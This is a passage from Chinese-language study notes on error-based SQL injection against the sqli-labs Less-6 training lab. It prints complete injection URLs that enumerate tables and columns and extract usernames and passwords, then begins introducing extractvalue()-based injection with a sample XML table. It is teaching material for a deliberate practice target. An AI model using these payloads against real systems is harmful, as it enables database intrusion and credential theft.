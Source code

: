 <img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730235219890.png" alt="image-20220730235219890" style="zoom:50%;" />

**3.查询security下的所有表名**

```sql
http://192.168.37.148/sql/Less-6/?id=-1" union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema='security'),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730235442873.png" alt="image-20220730235442873" style="zoom:50%;" />

**4.查询users表下的列名**

```sql
http://192.168.37.148/sql/Less-6/?id=-1" union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_name='users'),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220730235654940.png" alt="image-20220730235654940" style="zoom:50%;" />

**5.查询users表内的数据**

```sql
http://192.168.37.148/sql/Less-6/?id=-1" union select 1,count(*),concat_ws('-',(select concat(username,':',password) from users limit 0,1),floor(rand(0)*2)) as zxf from information_schema.columns group by zxf -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220731001134284.png" alt="image-20220731001134284" style="zoom:50%;" />

### （2）extractvalue()

```sql
select * from 数据库名 where id=1 and (extractvalue(1,concat(0x7e,(select 表名()),0x7e)));
```

函数extractvalue()包含两个参数，第一个参数是`XML文档对象名称`，第二个参数是`路径`。

**配置展示extractvalue()的用法的环境**：先创建一个数据库zxf，然后再该数据库下创建一张表，表名为xml，其中有一个doc列，然后运行下面两段代码，将下面两段xml数据插入到doc表内。

```sql
insert into xml values('
<book>
<title>A bad boy how to get a girlfriend</title>
<author>
<initial>LOVE</initial>
<surname>benben</surname>
</author>
</book>
');
```

```sql
insert into xml values('
<book>
<title>how to become a bad boy</title>
<author>
<initial>hualong</initial>
<surname>Melton</surname>
</author>
</book>
');
```
